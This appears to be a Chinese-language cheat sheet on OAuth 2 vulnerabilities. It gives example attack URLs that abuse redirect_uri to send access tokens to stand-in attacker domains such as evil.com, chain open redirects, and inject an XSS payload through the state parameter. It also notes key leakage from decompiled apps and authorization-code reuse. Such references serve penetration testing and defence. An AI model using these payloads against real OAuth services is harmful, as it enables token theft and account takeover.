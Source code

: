 # OAuth 2常见的漏洞

## 通过redirect_uri抓取的OAuth令牌
重定向到受控域以获取访问令牌
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向到被接受的开放URL以获取访问令牌
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```
OAuth的实现绝不将整个领域列入优良者名单, 只有少数的网址，“redirect_uri”不能指出一个开放的重定向。

 
有时你需要改成一个无效的域来使redirect_uri过滤器通过:
```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## 通过redirect_uri执行XSS
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth密钥泄露
一些Android / iOS应用程序可以被反编译并且OAuth密钥可以访问。

## 违反授权代码规则
```
The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.
```

## 感谢
* http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html
* http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html
* http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html
* http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html
